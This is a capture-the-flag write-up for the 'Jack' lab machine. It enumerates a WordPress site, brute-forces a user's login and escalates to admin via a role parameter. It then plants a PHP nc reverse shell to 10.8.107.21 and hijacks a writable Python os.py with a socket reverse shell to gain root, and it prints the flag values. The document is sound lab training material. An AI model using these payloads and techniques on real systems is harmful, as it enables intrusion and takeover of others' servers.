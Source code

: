 > Jack

# Nmap

nmap -sC -sV -T4 -Pn -A -vvv -oN nmap/initial $IP

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.3.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
```

Looks like a wordpress page. Let's enumerate users using wpscan.

# Wpscan - Enumerate Users

wpscan --url http://jack.thm -v -e u

```
[+] XML-RPC seems to be enabled: http://jack.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

We also know that we have XML-RPC enabled. We got 3 users. Let's save it in users file and bruteforce it.

# Wpscan - Bruteforce Login

wpscan --url "http://jack.thm" -U users.txt -P /usr/share/wordlists/fasttrack.txt -v

```
[SUCCESS] - wendy / changelater
```

We can login as wendy now.	Looking at the hints it said `ure_other_roles`. Looks like we have an exploit in exploit-db. Let's try ot manually. We have to edit the profile and capture the response and in the final line add `ure_other+reoles=Administrator`. And we are now admin. Let's try to get a shell. Let's navogate to plugin editor and add a PHP reverse shell in askimet.php and activate it.

`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 1234 >/tmp/f") ?>`

We are in as www-data.

# user.txt

```
0052f7829e48752f2e7bf50f1231548a
```

# remainder.txt

```
Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.
```

Since it says backup, let's look at /var/backups. And we got an id_rsa file there. And using that we can login as jack. 

And for privilege escalation. We have a hint `Python`. Let's check through the process using pspy64. Let's transfer it to the machine. We can see a python script runnning every 2 minutes.

```
2021/05/12 02:32:01 CMD: UID=0    PID=2242   | /usr/bin/python /opt/statuscheck/checker.py 
2021/05/12 02:32:01 CMD: UID=0    PID=2241   | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 
2021/05/12 02:32:01 CMD: UID=0    PID=2240   | /usr/sbin/CRON -f 
2021/05/12 02:32:01 CMD: UID=0    PID=2243   | /usr/bin/python /opt/statuscheck/checker.py 
```

# checker.py

```
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```

We have os module. Woww! But which python, on checking /usr/lib we can see 3 versions of python 

```
python2.7
python3
python3.5
```

So, let's start with 2.7. Checking in `/usr/lib/python2.7` we can find that os.py is writable. Let's drop a reverse shell at the end of os.py and capture a reverse shell.

```
import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.107.21",9001))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

And we are root!

# root.txt

```
b8b63a861cc09e853f29d8055d64bffb
```